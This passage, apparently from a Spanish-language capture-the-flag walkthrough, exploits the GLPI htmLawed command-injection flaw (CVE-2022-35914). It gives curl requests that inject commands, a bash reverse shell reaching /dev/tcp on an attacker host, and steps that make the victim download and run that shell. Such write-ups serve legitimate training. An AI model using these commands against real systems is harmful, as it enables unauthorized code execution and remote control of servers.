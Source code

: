 ## Escalate user www-data

Si buscamos un poco veremos lo siguiente:

URL = [CVE-2022-52023 ExploitDB](https://www.exploit-db.com/exploits/52023)

URL = [Info Vuln](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/)

Vemos que se puede realizar un `RCE` directamente en la pagina, si leemos un poco veremos que la forma de explotarlo es mediante una `URL` en concreto, pero vamos a descargarnos el archivo y a ejecutarlo de esta forma:

La `URL` tiene que apuntar a un archivo en concreto que es el vulnerable llamado `htmLawedTest.php` por lo que leimos en la documentacion.

```shell
dos2unix 52023.sh
chmod +x 52023.sh
./52023.sh -u 'http://<IP>/htmLawed/htmLawedTest.php' -c 'whoami'
```

Pero si no os funciona, podemos hacerlo de esta forma tambien:

```shell
apt install html2text
curl -s -d "sid=foo&hhook=exec&text=id" -b "sid=foo" "http://<IP>/htmLawed/htmLawedTest.php" | html2text | grep "memory" -A 1 | grep -v "memory"
```

Info:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Veremos que esta funcionando, por lo que vamos a realizar una `reverse shell` de esta forma:

> shell.sh

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

Vamos abrir un servidor de `python3` para suministrar el archivo.

```shell
python3 -m http.server 80
```

Ahora vamos hacer que se lo descargue la maquina victima.

```shell
curl -s -d "sid=foo&hhook=exec&text=wget http://<IP_ATTACKER>/shell.sh" -b "sid=foo" "http://<IP>/htmLawed/htmLawedTest.php" | html2text | grep "memory" -A 1 | grep -v "memory"
```

Echo esto, vamos a ejecutar dicho archivo de esta forma:

```shell
curl -s -d "sid=foo&hhook=exec&text=bash shell.sh" -b "sid=foo" "http://<IP>/htmLawed/htmLawedTest.php" | html2text | grep "memory" -A 1 | grep -v "memory"
```
